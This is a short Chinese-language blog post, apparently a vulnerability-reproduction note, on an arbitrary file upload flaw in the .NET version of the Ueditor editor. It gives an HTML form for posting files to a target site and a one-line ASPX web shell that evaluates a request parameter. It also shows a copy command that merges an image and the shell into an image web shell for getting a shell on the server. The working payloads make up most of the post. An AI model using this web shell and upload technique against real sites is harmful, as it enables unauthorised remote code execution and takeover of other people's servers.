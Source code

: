 ```yaml
---
layout: post
title: Ueditor 漏洞整理
date: 2022-8-24
categories: blog
tags: [漏洞复现,Ueditor]
description: Ueditor


---
```


### Ueditor .net版本任意文件上传'

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马


```shell
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>

#命令行合成图片马
copy 1.jpg/b + 2.aspx 3.aspx
```

